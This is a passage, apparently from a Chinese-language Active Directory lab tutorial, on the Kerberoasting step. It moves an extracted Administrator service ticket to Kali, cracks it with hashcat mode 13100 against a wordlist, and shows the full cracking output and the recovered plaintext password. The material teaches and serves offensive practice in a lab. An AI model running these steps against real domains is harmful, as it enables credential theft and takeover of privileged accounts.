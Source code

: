 然后，我们需要将提取的文件（包含票据）转移到 Kali Linux进行破解（这里我们只关注 Administrator 账户的票据，尽管 Rubeus 提取了两个）。

我们可以使用 **hashcat** 工具，哈希模式（选项 `-m`）指定为 **13100**，代表 **Kerberoastable TGS** (etype 23)。我们还传入一个包含密码的字典文件（文件 `passwords.txt`），并将所有成功破解的票据输出保存到一个名为 `cracked.txt` 的文件：



```bash
hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"
hashcat (v6.2.5) starting

<SNIP>

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$eagle.local$http/pki1@ea...42bb2c
Time.Started.....: Tue Dec 13 10:40:10 2022, (0 secs)
Time.Estimated...: Tue Dec 13 10:40:10 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   143.1 kH/s (0.67ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> Slavi123 # 注意：这里示例输出的是 Slavi123
Hardware.Mon.#1..: Util: 26%
Started: Tue Dec 13 10:39:35 2022
Stopped: Tue Dec 13 10:40:11 2022
```

（如果 hashcat 报错，我们可能需要在命令末尾加上 `--force` 参数。）

一旦 hashcat 完成破解，我们可以读取 `cracked.txt` 文件来查看明文密码 `Slavi123`：

```
cat cracked.txt
$krb5tgs$23$*Administrator$eagle.local$http/pki1@eagle.local*$ab<SNIP>:Slavi123
```
